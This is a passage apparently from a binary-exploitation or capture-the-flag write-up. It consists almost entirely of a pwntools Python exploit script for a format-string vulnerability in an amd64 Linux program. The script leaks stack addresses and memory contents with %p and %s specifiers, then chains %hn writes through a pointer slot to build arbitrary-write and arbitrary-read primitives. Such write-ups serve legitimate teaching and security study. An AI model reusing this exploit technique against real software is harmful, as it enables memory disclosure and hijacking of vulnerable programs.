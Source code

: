 Putting everything together, the full exploit is as follows:

```python
#!/usr/bin/python

from pwn import *
import pwnlib

#context.log_level = 'debug'
context.update(arch = 'amd64', os = 'linux')


def run_leak(p, payload):
    prefix = b"XXXX"
    postfix = b'ZZZZ'
    total = prefix + payload + postfix
    p.sendline(total)
    p.recvuntil(prefix)
    data = p.recvuntil(postfix)
    return data[:-4]

def adjust_bouncer(p, base, index, offset=0):
    # Adjust the value of index 39 to point at a particular index.
    address = base + (index * 8) + offset
    lower_address = address & 0xffff
    payload = b'%' + str(lower_address).encode('utf-8') + b'c%26$hn'
    p.sendline(payload)
    p.recv()

def leak_address(p, index):
    payload = ('%' + str(index) + '$p').encode('utf-8')
    r = run_leak(p, payload)
    address = int(r, 16)
    return address

def leak_data(p, index):
    payload = ('%' + str(index) + '$s').encode('utf-8')
    r = run_leak(p, payload)
    return r

def write_single(p, value):
    # Value must be a 2 bytes short
    if value > 0:
        payload = b'%' + str(value).encode('utf-8') + b'c%39$hn'
    else:
        payload = b'%39$hn'
    p.sendline(payload)
    p.recv()

def write_index(p, index_base, index, address, value):
    # Writes an arbitrary value to an index.
    if index == 39:
        # NOT ALLOWEEED
        return

    for i in range(0, 8, 2):
        current_portion = (address >> (i * 8)) & 0xffff
        adjust_bouncer(p, index_base, index, offset=i)
        write_single(p, current_portion)

def arbitrary_read(p, index_base, address):
    write_index(p, index_base, 41, address, 0)
    data = leak_data(p, 41)
    return data
```